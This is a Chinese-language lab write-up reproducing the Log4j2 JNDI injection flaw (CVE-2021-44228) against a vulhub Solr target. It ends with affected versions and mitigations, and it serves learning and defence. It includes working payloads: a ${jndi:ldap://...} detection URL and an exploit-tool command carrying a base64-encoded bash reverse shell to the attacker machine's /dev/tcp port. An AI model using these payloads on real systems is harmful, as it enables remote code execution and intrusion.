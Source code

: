 # log4j2漏洞复现【CVE-2021-44228】

*** 前言***

- vulhub靶场
- 攻击机：192.168.200.155，靶机：192.168.200.150

### 漏洞简介

log4j2是apache log4j2为开源日志库，用于记录java日志。该远程代码执行漏洞基于攻击者使用${}关键标识触发JNDI注入漏洞，可以执行任意代码。

### 漏洞探测

- 在``` http://dnslog.cn/```网站中拿到一个临时的DNS，点击```Get SubDomain```即可。

![image-20240428141918938](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240428141918938.png)
- 靶机进入文件夹中开启docker环境，访问靶机ip:8983看到Solr界面即启动成功。

  ``` 
  命令：sudo docker-compose up -d
  ```

![](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240428151736059.png)

![image-20240428142759122](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240428142759122.png)

- 在浏览器中输入下方内容，显示该页面表示成功。

  ```
  http://192.168.200.150:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.ur0yrb.dnslog.cn}
  ```

![image-20240428143445982](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240428143445982.png)

- 回到dnslog.cn网址，点击```Refresh Record```刷新数据，成功回显java版本号代表存在Log4J2漏洞。

![image-20240428143713946](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240428143713946.png)
### 漏洞利用

- 在攻击机中输入下方命令下载注入工具 ，并解压文件并进入tools文件夹下。

  ```
  git clone https://github.com/bkfish/Apache-Log4j-Learning.git
  ```


![image-20240428144346506](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240428144346506.png)

- 攻击机再开一个终端用来监听端口，等待反弹的shell。这里我使用的是6666端口。

![image-20240428144837456](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240428144837456.png)

- 攻击机把反弹shell的命令进行base64编码后写入到下方命令并运行。

  ```
  java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwMC4xNTUvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}" -A "192.168.200.155"
  ```
![image-20240428145009591](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240428145009591.png)

![image-20240428145438605](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240428145438605.png)

- 在红框中随便选一个payload使用即可。
![image-20240428145707376](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240428145707376.png)

```
构造payload:http://192.168.200.150:8983/solr/admin/cores?action=${jndi:ldap://192.168.200.155:1389/lsaybx}
```

- 在浏览器中输入完成后，可以看到已经拿到shell。

  ![image-20240428150122077](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240428150122077.png)

### 影响范围

log4j版本：2.x <= 2.14.1

JDK 版本：小于 8u191、7u201、6u211



### 漏洞修复

1. 禁止用户请求参数出现攻击关键字
2. 禁止lookup下载远程文件
3. 禁止log4j的应用连接外网
4. 禁止log4j使用lookup
5. 从log4j jar包中中删除lookup 2.10以下
